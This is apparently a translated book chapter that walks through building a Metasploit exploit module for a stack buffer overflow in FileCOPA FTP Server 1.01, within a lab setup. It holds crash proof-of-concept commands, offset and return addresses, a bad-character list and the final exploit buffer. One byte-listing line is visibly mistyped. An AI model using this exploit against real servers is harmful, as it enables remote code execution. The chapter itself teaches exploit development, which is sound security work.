


# 第十章。使用 Ruby 编写 Metasploit 3.1 模块

本书的前几章已经致力于我所谓的主流 Ruby 脚本编程。Ruby 是我的一大爱好，信息安全也是另一个，所以我决定写一章将它们结合起来。这一章是使用 Metasploit 框架（MSF）进行漏洞利用开发的逐步指南。

在以下示例中，我使用了一个我在开源漏洞数据库([`www.osvdb.org/`](http://www.osvdb.org/))上找到的漏洞。我们不会自己发现漏洞，但关于这个主题有许多其他书籍和文章。如果你喜欢这里看到的内容，那么你应该看看模糊测试和软件逆向工程，因为这些都是发现漏洞的主要方法之一。

到本章结束时，你将知道如何使用 Ruby 和 MSF 的强大功能编写一个针对闭源 FTP 服务器的有效漏洞利用。

当我读到 Metasploit 团队决定完全用 Ruby 重写 MSF 时，我几乎不敢相信。（MSF 2.0 使用 Perl 作为其基础。）Perl 和 Ruby 的一个很好的特性是它们都是平台无关的，因此 Windows 和类 Unix 操作系统都能够使用这个框架。我对这个话题很兴奋，让我们开始吧！

# Metasploit 简介

MSF 是一个编写漏洞利用、快速切换有效载荷和管理被利用系统的优秀工具。为了确保我们使用的是同一种语言，*漏洞利用*是指攻击者获取系统控制权的方法——利用软件漏洞的代码。*有效载荷*是在利用后希望在目标机器上执行的代码：它可能是一个绑定 shell，每次攻击者连接到受害机器上的特定端口时，都会启动一个命令提示符，或者它可能只是简单地添加一个用户到受害机器上。如果你浏览一个漏洞库网站，如[`www.milw0rm.com/`](http://www.milw0rm.com/)，你会发现大多数漏洞利用在代码顶部都有一些有效载荷。这些漏洞利用只做一件事，因此并不非常灵活。如果你需要一个不同的有效载荷，你必须每次重写漏洞利用来添加新的有效载荷，并调整缓冲区大小，以确保漏洞利用能够正常工作。这个过程可能很繁琐。

MSF 根据用户输入动态创建有效载荷；一旦在 MSF 中编写了攻击代码，切换有效载荷就变得非常简单。除了 MSF 的核心之外，还有其他工具和辅助模块在攻击开发和渗透测试期间非常有用，例如侦察、协议模糊测试、拒绝服务和漏洞扫描。我鼓励您超越框架中包含的攻击。许多 MSF 用户了解 MSF 的基础知识，但不知道如何创建自己的模块。本章将向您展示 MSF 的真正优势——定制攻击。

# 安装

我将使用两个不同的系统作为示例。一个是 Windows XP 机器（攻击者），另一个是 Windows 2000 机器（受害者）。对于这个示例，物理网络布局并不重要。我使用了虚拟化网络，但您也可以在一个机器上安装应用程序，或者使用两台独立的计算机。至于操作系统，由于攻击中使用的库，受害者必须是 Windows 2000 机器。一旦您编写了攻击代码，攻击机器可以运行 Metasploit 支持的任何操作系统，几乎涵盖了所有操作系统。选择权在您手中；结果将相同。

为了跟随本章内容，您需要在您的计算机上安装一个完整的 MSF 3.1 版本，您可以从 [`www.metasploit.com/framework/`](http://www.metasploit.com/framework/) 获取。请确保您选择适合您操作系统的 Metasploit 版本。我将参考 Windows 安装，但其他操作系统的安装过程将与 Metasploit 的智能设计相似。

在攻击机器上安装 MSF 后，通过选择 **开始 ► 程序 ► Metasploit 3 ► Metasploit 3 GUI** 来启动框架。（为了跟随教程，非 Windows 用户应启动 Metasploit 3 GUI。）

MSF 有四种操作框架的方式：*Metasploit 3 Web、图形用户界面 (GUI)、命令行界面 (CLI)* 和 *控制台*。控制台和 CLI 都是文本界面。Metasploit 3 Web 界面和 GUI 是图形界面，在攻击过程中具有不同程度的粒度。GUI 将是我们本章使用的界面。

在 MSF 2.0 中，我几乎完全使用控制台，但在 3.1 版本中我切换到了 GUI，因为界面非常干净且易于使用，功能与控制台相当。了解如何操作 MSF 控制台将更好地理解框架，然后切换控制台和 GUI 将变得无缝。

到目前为止，您已安装 MSF 3.1 并可以无错误地启动 Metasploit 3 GUI。启动框架后，您应该看到一个弹出窗口，加载 MSF（见 图 10-1）。如果由于某种原因没有弹出窗口，请检查 MSF 日志中是否有任何错误。

图 10-1. Metasploit GUI

当应用程序加载完成后，你会注意到几个带有不同标题的窗格：*Exploits/Auxiliary, Jobs, Module Information/Output*和*Sessions*。你可以在每个窗格中点击查看框架的各个部分。如果你已经到了这一步，那么你的 MSF 安装是成功的，我们可以继续编写漏洞利用。如果你是第一次使用 MSF，那么在回到这一节之前，花点时间浏览一下并熟悉一下界面。

# 编写模块

上次我检查时，该框架附带超过 450 个漏洞利用和 104 个有效载荷，以帮助用户进行安全研究。由于安全社区的定期更新，有效载荷和漏洞利用的数量会有所变化。包含的漏洞利用基于已知的和有文档记录的漏洞，因此针对完全更新的系统会让用户和框架感到沮丧……也就是说，除非用户知道如何编写自己的模块.^([2])

MSF 3.1 附带 450 个漏洞利用，位于*msf3.tar\msf3\modules\exploits\*。

模块的目录结构组织得非常好；例如，要在 Windows 机器上找到一个 FTP 漏洞利用，你会在*windows*文件夹中查找，然后是*ftp*。

我们将要利用的目标程序是 2006 年 7 月 18 日之前发布的 FileCOPA FTP Server 版本 1.01。通过谷歌搜索可以找到有漏洞的程序。该 FTP 软件在 Windows 平台上运行，并提供 FTP 服务。我们将利用的漏洞存在于传递给`LIST`函数的参数的不当边界检查中。该漏洞是公开的，可以在开源漏洞数据库网站上找到关于“FileCOPA FTP Server LIST 命令溢出”的警告([`osvdb.org/show/osvdb/27389/`](http://osvdb.org/show/osvdb/27389/))。

已经为这个漏洞编写了几个概念验证漏洞利用，所以这个漏洞利用不会为安全世界带来任何新内容。然而，通过了解如何创建自己的 MSF 模块，你将能够开发其他未记录的漏洞利用。此模块最近被添加到 MSF 3.1 安装中。如果你使用的是 MSF 的旧版本（3.1 之前），则可以将模块添加到你的 MSF 库中。

* * *

^([2]) MSF 委婉地称漏洞利用为“模块”。当你看到*MSF 模块*时，我们实际上在谈论 MSF 中的漏洞利用。

# 构建漏洞利用

如我之前所述，FileCOPA FTP 服务器在其`LIST`函数中存在漏洞。通过针对运行有漏洞应用程序的机器并发送一个专门定制的`LIST`命令到服务器，我们可以在远程机器上执行任意代码。这对于渗透测试员或安全研究员来说是一个很好的位置。为了测试这个漏洞，向服务器发送`LIST`命令，后面跟着重复 1000 次的字母 A（1000 是任意的；命令只需要足够长以触发溢出）。结果将是一个死掉的 FTP 服务器。重复的*A*导致服务器崩溃，因为*A*覆盖了堆栈上的重要数据。

为了演示服务器崩溃，我们将使用 MSF 附带的一个工具，名为 netcat。该工具位于**开始 ► 程序 ► Metasploit 3 ► 工具 ► Netcat**，但也可以作为独立程序下载。netcat 的基本描述是它是一个网络实用程序，用于在网络上读取和写入数据——完美！我们将通过网络向 FTP 服务器读写数据。要开始 FTP 会话，请运行以下命令（您可以通过选择**开始 ► 运行**，输入**`cmd`**并按回车键来访问命令提示符）。

``**`nc -vv 127.0.0.1 21`** localhost [127.0.0.1] 21 (ftp) open USER anonymous 220-InterVations FileCOPA FTP Server Version 1.01 220 Trial Version. 30 days remaining **`LIST -l 'A'x1000`**``

服务器崩溃是因为它只期望与文件或目录列表相关的输入。为了验证服务器是否崩溃，尝试建立另一个连接。当我们向 FTP 服务器发送垃圾数据（例如，`'A' x 1000`）时，受害应用程序会尝试存储所有输入并在堆栈上覆盖自身。这被称为基于堆栈的缓冲区溢出。数据覆盖的重要性在于程序覆盖了一个用于指向执行下一个指令的地址。如果我们覆盖执行下一个地址，我们可以让程序执行我们的代码。

有几种方法可以发送大的 A 字符串。一种方法如上所示使用 netcat。您也可以使用 Perl，例如`perl -e "print'A'x1000"`，或者您可以使用 Ruby。无论您选择哪种方式，都会产生相同的效果。使用 Ruby，您可以输入类似以下的内容：

``**`require 'net/ftp'`** **`Net::FTP.open('127.0.0.1') do |ftp|`** **`    ftp.login`** **`    ftp.list('A' + 'A'*1000)`** **`end`**``

如果您再次运行 netcat 或 Ruby 的代码片段，您将收到一个错误消息，因为客户端将无法连接到崩溃的 FTP 服务器。这就是我们攻击的开始。我们仍然需要更多信息来构建一个成功的利用，这引导我们进入下一步。

# 实时观察

要实时看到 FTP 服务器崩溃，并跟踪栈上的情况，你需要一个*调试器*。我偏爱 OllyDbg ([`www.ollydbg.de/`](http://www.ollydbg.de/))，但 Immunity, Inc.最近发布了 Immunity Debugger ([`www.immunitysec.com/products-immdbg.shtml/`](http://www.immunitysec.com/products-immdbg.shtml/))，据说是很好的。选择一个调试器，并将其安装在托管 FTP 服务器的计算机上。

观察程序崩溃并不复杂；第一步是重启 FTP 服务器。然后启动 OllyDbg。当 OllyDbg 打开后，选择**文件 ► 附加**。一个运行进程列表将弹出一个新窗口。列表将包含在托管 FTP 服务器的系统上当前运行的所有进程（即，受害者系统）。滚动进程列表以找到名为`filecpt`的 FileCOPA FTP 服务器。这是 FTP 服务器进程，但它不是我们要找的。如果你连接到 FTP 服务器，在 FTP 服务器发送任何数据包之前，将产生一个新的*子进程*。这是我们想要附加的进程。它被称为`filecpnt`。高亮显示进程并点击**附加**按钮。现在 OllyDbg 将监控 FTP 连接，并在 FileCOPA FTP 程序崩溃或出现错误时通知你。

返回到你的攻击机器，你应该已经连接到 FTP 服务器。剩下要做的就是发送上面显示的恶意`LIST`命令，使用 netcat 或 Ruby。一旦发送了`LIST`命令，OllyDbg 应该会在受害者计算机上弹出，底部右角有一个明亮的黄色框，上面写着`暂停`。底部左角应该包含显示文本`执行[41414141]时发生访问违规`。`41`是字母*A*的十六进制表示——我们刚刚在栈上破坏的那个字母！这是个令人兴奋的消息；现在我们正在取得进展。看看 OllyDbg 中的栈，位于程序右下角的面板（图 10-2）。你会看到很多重复的`41414141`。这是我们通过`LIST`命令发送的数据。

图 10-2. OllyDbg 关于崩溃的 FTP 服务器的报告

现在我们能够通过手动可靠地崩溃程序，并且我们知道我们的信息写入位置，那么让我们在 MSF 中试一试。为此，我们需要创建一个 shell 模块，并使用 1,000 个*A*作为负载。记住，在 MSF 中，模块和漏洞利用是同一回事。我们将开始工作的 shell 看起来是这样的：

`require 'msf/core'  module Msf    class Exploits::Windows::Ftp::FileCopa_List < Msf::Exploit::Remote    include Exploit::Remote::Ftp    def initialize(info = {})    super(update_info(info,    'Name'            => 'FileCOPA 1.01 <= 列表溢出',    'Description'     => %q{此模块利用了 FileCOPA 多协议文件传输服务中的栈溢出。此漏洞利用需要有效的用户账户（或匿名访问）。    },    'Author'          => 'Steve <Steve@nostarch.com>',    'License'         => MSF_LICENSE,    'Version'         => '$Revision: 4498 $',    'References'      =>      [      ['OSVDB', '27389'],      ],    'Privileged'      => true,    'DefaultOptions'  =>      {      'EXITFUNC'        => 'thread',      },    'Payload'         =>      {      'Space'           => 1000,      'BadChars'        => "\x00",      },    'Targets'         =>      [      [      'Windows 2000 Professional SP4 英文',      {      'Platform'        => 'win',      'Ret'             => 0XDEADBEEF,      },      ],      ],    ]    end    def exploit    connect_login    print_status("尝试目标 #{target.name}...")    print_status("找到进程并附加 Ollydbg.")    sleep 30    buf  = 'A'*1000    send_cmd( ['LIST', buf] , false)    handler    disconnect    end    end`

# Metasploit 模块 Shell 的说明

此 shell 包含大多数 MSF 模块中常见的部分。首先是`require msf/core`。这个`require`语句使模块能够使用 MSF 核心库。接下来是类声明。由于我们是在远程攻击 FTP 服务器，我们需要模块继承`Msf::Exploit::Remote`的属性。如果你正在开发本地提权或其他类型的漏洞利用，你需要将此行更改为特定的漏洞利用类型。我们 FTP 模块特有的另一行是`Exploit::Remote::Ftp`，它使我们可以使用 FTP 方法。这一行抽象了一些命令，例如初始化连接和登录，这样我们就可以专注于编写漏洞利用代码，而不是建立 FTP 会话。

`初始化`方法是从模块开始形成的地方。逐行检查，我们开始于漏洞的名称和模块的描述。这可以是与你所写模块相关的任何内容。描述将在用户查看框架中的漏洞时显示。描述越准确，以后的混淆就越少。

`initialization`方法的下一部分包含有关模块作者的特定信息。跳转到`payload`、`platform`和`targets`——这些选项决定了攻击如何运行，要针对哪些平台，以及其他约束。`EXITFUNC`被设置为`thread`，这样当 MSF 从受害者断开连接时，只有进程线程会被杀死。此方法将尝试避免在成功的攻击中崩溃被利用的程序，而是仅仅崩溃一个线程。

需要设置有效载荷空间的大小，这个数字对我们攻击至关重要。目前我们将值设置为`1000`个字符，因为我们没有问题地连续敲击了 1,000 次 A，但稍后我们将修改这个值。接下来是坏字符，或`BadChars`。随着我们找到阻碍成功攻击的字符，这个列表将会增长。我已经将`\x00`添加到列表中，因为它表示字符串的结尾，并且是一个典型的坏字符。

`initialization`方法的下一部分是针对`Targets`的。我在一台 Microsoft Windows 2000 Professional Service Pack 4 机器上托管 FTP 服务器，所以具体的靶机信息将保存在这里。随着攻击在其他操作系统上进行测试，可以包含更多平台，但到目前为止，我们将靶机限制在我们的一个受害者机器上。这结束了初始化方法，并为模块的其余部分提供了一个稳固的起点。

我们 shell 的最后一个方法是调用的`exploit`，这就是魔法发生的地方。使用`connect_login`（它是 MSF 的一部分），我们与目标启动一个 FTP 会话。看看这比使用 netcat 或 Ruby 本身要容易多少？

连接后显示一个默认的状态消息，让用户知道攻击正在进行中，并且目标信息保存在`target.name`中。因为我们正在针对子进程，我添加了一个`sleep`函数（持续 30 秒），以便在砸栈之前有足够的时间将调试器附加到进程上。

30 秒过后，我们的有效载荷被创建并保存到`buf`中。在这种情况下，有效载荷将是 1,000 *A*s。`LIST`命令和`buf`都被发送到目标，然后调用`handler`方法等待目标响应。如果攻击成功，那么`handler`将捕获响应并控制后续操作。当用户完成会话后，调用`disconnect`，这完成了攻击。在这个例子中，模块将在`send_cmd`之后停止，因为*A*（即`\x41`）不会进行任何黑客行为；所以不会向`handler`发送响应。

为了测试您的新 MSF 模块，请将此文件保存为 *filecopa_exploit.rb*^([3]) 到文件夹 *\AppData\Local\.msf3\modules* 中。然后启动 FTP 服务器、OllyDbg 和 MSF。将 OllyDbg 附加到受害者机器上的 FTP 服务器。在攻击机器上，重新启动 MSF GUI。在 MSF 中，点击 **Exploits**，搜索 FileCOPA。找到我们刚刚编写的模块 shell（它将包含我们的描述）并双击它。将弹出一个新窗口，询问您想针对哪个平台。由于我们在模块代码中只包含了一个目标，所以我们只有一个选择。点击 **Forward**。接下来，您将选择 `generic/shell_reverse_tcp` 有效载荷。现在不用担心有效载荷；我们只是使用 A——而不是实际的有效载荷。点击 **Forward** 继续操作。在下一个屏幕上，您将被要求输入有关目标和您自己的具体信息。唯一需要的信息是 `RHOST`，它将是 *远程主机* 或受害者的 IP 地址。除非您知道某些内容与默认值不同，否则可以保留已完成的字段。MSF 自动检测您的本地 IP 地址，假设 FTP 在端口 21 上，并假设 FTP 服务器允许匿名登录。点击 **Forward** 按钮，查看信息，并点击 **Apply**。

记住，我们只有 30 秒的时间将调试器附加到正确的进程；所以您点击 **Apply** 后，需要找到子进程 `filecpnt`。在进程被附加并且 MSF 继续执行模块后，OllyDbg 应该在受害者机器上跳出来并显示与之前（当我们手动利用 FTP 服务器时）相同的消息。

* * *

^([3]) 如果您使用的是 MSF 3.1，您将看到 *filecopa_list_overflow.rb*。这是我们从头开始编写的相同漏洞利用，所以现在不用担心它。

# 寻找有效载荷空间

我提到，有效载荷空间变量对我们漏洞利用至关重要。开发下一步是定义有效载荷。为此，我们首先需要找出有多少空间可供操作。我们拥有的空间越多，我们就有更多的选择，可以决定将多少功能放入我们的有效载荷中。MSF 3.1 中有 104 个有效载荷，每个有效载荷的大小都不同。如果易受攻击的程序为我们提供了有限的空间，那么一些较大的有效载荷将无法工作。我们还需要知道在崩溃之前，栈上的哪个位置被读取为下一个指令。

在我们前两次利用尝试中，OllyDbg 告诉我们，当 FTP 服务器崩溃时，下一个指令指针的地址是 `0x41414141`。这个地址是我们 *A* 系列的一部分。为了确定哪一部分被加载到指令指针中，我们需要将 *A* 系列改为一系列独特且不重复的字符。我们将用可预测的数据填充代码，并查看程序崩溃的位置。这将显示地址是从堆中读取的。基本上，我们将发送独特的数据，读取 OllyDbg 崩溃的位置，然后在我们的字符串中搜索独特且不重复的数据。最终的放置将显示我们获取应用程序控制所需的缓冲区大小。

MSF 附带一个名为 `pattern_create.rb` 的优秀工具。您可以在 *msf3.tar\msf3\tool* 中找到它。这个 Ruby 脚本生成可预测且不重复的字符串——这正是我们将用来找到有效载荷空间的东西。因为我们已经将 1,000 用作有效载荷中的字符数，所以我们将使用 *pattern_create.rb* 生成一个独特的 1,000 字符字符串。以下命令将生成模式并将结果输出到 *payload_test.txt*：

``C:\Users\Steve\AppData\Local\msf3\tools>**`ruby pattern_create.rb 1000 > payload_test.txt`**``

下面是 *payload_test.txt* 的内容：

`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5 Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1 Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7 Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3 Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9 An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5 Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1 As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7 Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3 Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9 Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5 Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1 Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh`

现在我们打开 *filecopa_exploit.rb* 模块，并将位于 *payload_test.txt* 中的字符串替换 `'A'*1000`。新行将看起来像这样：

`buf = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac 5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af 1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah 7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak 3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am 9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap 5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As 1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au 7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax 3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az 9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc 5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf 1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh'`

保存更新的`filecopa_exploit.rb`文件并返回到 MSF 窗口。要重新加载编辑后的模块，在 GUI 中点击**系统 ► 刷新**。通过启动 FTP 服务器并附加 OllyDbg 来重置应用程序。按照上述描述运行模块，你应该在 OllyDbg 中看到不同的错误信息。现在将不再是 `[41414141]` 的访问违规，而是 `[66413366]` 的访问违规（见图 10-3）。

图 10-3. OllyDbg 附加到 FileCOPA 显示访问违规

我们取得了很大的进展！我希望你开始看到 MSF 如何简化漏洞利用的开发。使用这个新地址并准备使用另一个名为`pattern_offset.rb`的 MSF 工具。

如你所猜，这个脚本将能够告诉我们调用有漏洞的堆栈空间之前需要占用多少空间。输入以下命令，传递崩溃的地址（`66413366`）和`payload_test.txt`字符串的长度（`1000`）：

``C:\Program Files\Metasploit\Framework3\framework\tools>**`ruby pattern_offset.rb 66413366  1000`**``

脚本会响应我们需要在写入跳转地址之前填充多少空间。在这个例子中，偏移量的大小是 160 字节。

``C:\Program Files\Metasploit\Framework3\framework\tools>**`ruby pattern_offset.rb 66413366 1000`** 160``

我们需要提供一个返回或跳转的地址，以便我们可以执行自己的代码。由于`0x41414141`和`0x66413366`对我们的漏洞利用没有任何作用，我们需要获取一个不同的地址。我使用在线 MSF 操作码（*opcode*）数据库来获取一个允许我们执行代码的地址。这个网站允许用户搜索任何操作系统的特定操作码。在这个例子中，我访问了[`www.metasploit.com/users/opcode/msfopcode.cgi/`](http://www.metasploit.com/users/opcode/msfopcode.cgi/)（见图 10-4）。

图 10-4. Metasploit 在线操作码数据库

我随后点击了**在模块集中搜索操作码**。

我选择了**特定操作码**单选按钮，并从下拉菜单中选择**jmp esp**。

显示了一个*.dll*列表，选择*.dll*时需要记住的重要一点是，你希望它尽可能通用，或者跨多个平台通用。*uer32.dll*文件相当通用，这影响了我的决定。

我选择了我的目标机器（Windows 2000 Service Pack 4 - 英语）并点击了**下一步**。

操作码数据库返回了两个地址（`0x77e14c29`和`0x77e3c256`），它们符合我的标准。

漏洞利用几乎完成了，但我们仍然需要构建`LIST`命令并移除所有会阻碍漏洞利用的坏字符。如果未能从我们的有效载荷中移除坏字符，漏洞利用将失败，因为我们的有效载荷将被应用程序修改。

要找到坏字符，我们需要发送 ASCII 表中的所有十六进制字符，并确定哪些字符在传输过程中被修改和损坏。我们将有效载荷修改为包含`int3`（十六进制值`0xcc`）加上`0-255`重复两次。0 到 255 的重复缩小了修改我们字符的因素——是应用程序中的过滤器试图将坏数据排除在输入缓冲区之外，还是使用了数据作为执行命令的方法？无论如何，我们都希望我们的数据在受害者应用程序的输入缓冲区中不受损害。如果字符只在一个地方被修改，那么假设有一个方法修改了我们的数据。如果有两个相同的字符被修改，那么过滤器可能介入了。使用此命令可以轻松生成字符字符串（C 参数指定`pack`方法使用无符号字符）：

`buf  = "\xcc" + ([*(1..255)].pack ('C*') *2)`

以下对`buf`的赋值将实现与上面一行相同的效果，但你也可以看到上面一行是多么简洁。我更喜欢简洁的声明。

`buf = '\xcc\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\x89\xaa\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xxf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff...'`

当在 OllyDbg 中查看崩溃的 FTP 服务器时，我们寻找由我们的模块提供的输入。`\xcc`或`int3`是一个软件中断，它会导致 OllyDbg 停止，就像你在代码中插入了一个断点一样。在这个时候，我们并不关心跟踪代码；我们只想确保我们的有效载荷是稳固的。中断暂停执行，让你能够观察 MSF 发送的字符，找出哪些字符，如果有的话，没有通过。如果任何字符被更改、操作或以其他方式不同，我们就从列表中移除它们。

你将知道哪些字符没有幸存，因为流是顺序的，如果发生任何事情，将会有一个字符不在其位。这个过程会重复进行，因为流一次只会揭示一个坏字符。你必须重复这个过程，直到你的流完整到达。一旦发生这种情况，你将找到所有的坏字符。这项耗时的工作将确保编码后的有效载荷正确到达。坏字符在创建 NOP 滑梯（不会滑动到我们的 shellcode 的操作）以及编码有效载荷时都很重要。一个*NOP 滑梯*是执行时不会执行任何操作的代码段。一个简单的“无操作”命令是`0x90`，这是计算机操作码，表示“不执行任何操作”。另一个例子是增加一个寄存器，然后减少相同的寄存器，结果状态不变。

图 10-5. 追踪坏字符

您可以从图 10-5 中看到`\x0a`和`\x0d`没有被包含。我在这个漏洞利用中发现的坏字符有：

`\x00\x0b\x0a\x0d\x20\x23\x25\x26\x2b\x2f\x3a\x3f\x5c`

这些被添加到模块中并分配给`BadChars`。现在，我们将注意力转向`exploit`方法并完成模块。使用 SPIKE（由 Dave Aitel 编写的开源模糊测试框架）这样的 fuzzer，你可以找到漏洞以及用于使 FTP 服务器崩溃的字符串类型。字符串的长度很重要，因为它将揭示我们在有效载荷中可以放置多少空间。我们还可以查看用于使应用程序崩溃的概念验证的公告。字符串将类似于以下内容：

`LIST A BBBBBBBBBBBBBBBBBBBBBB...x 350...BBBBBBBBBB`

由于在跳转地址之前没有足够的空间插入我们的 shellcode，我们需要修改我们的`buf`内容。新的攻击字符串将看起来像这样：

`buf  = "A\x20" + rand_text_english(160, payload_badchars) buf << [target.ret].pack('V') buf << make_nops(4) + jmp_ecx buf << make_nops(444) + payload.encoded + "\r\n"`

分解每一行，`A\x20`代表字母*A*后跟一个空格（`\x20`是空格的十六进制表示）。然后附加 160 个随机字符作为填充。这个数字来自由*pattern_offset.rb*找到的偏移量。`payload_badchars`方法确保随机数据中不会出现任何坏字符。然后返回地址被添加到有效载荷中，并通过`pack`方法转换为可用的地址。`V`参数将返回地址转换为称为*小端字节序*的特定二进制序列。

在返回地址之后，我们在`buf`中添加四个 NOP。NOPs 除了填充空间外不做任何事情。`payload_badchars`和`make_nops`方法的区别在于：如果执行`make_nops`，它不会影响漏洞利用的执行。

恶意字符串的下一部分，`buf`，很棘手。由于在返回地址之前没有足够的空间放置完整大小的有效载荷，我们使用一个技巧来跳转到有效载荷。这被称为*共享库跳跃垫*。基本思想是，我们不会直接将指令指针指向有效载荷地址，而是将在寄存器中查找我们的有效载荷地址并将寄存器的内容加载到指令指针中。我们只需要确保寄存器有一个指向 NOP sled 和我们的有效载荷开始的地址之间的地址。

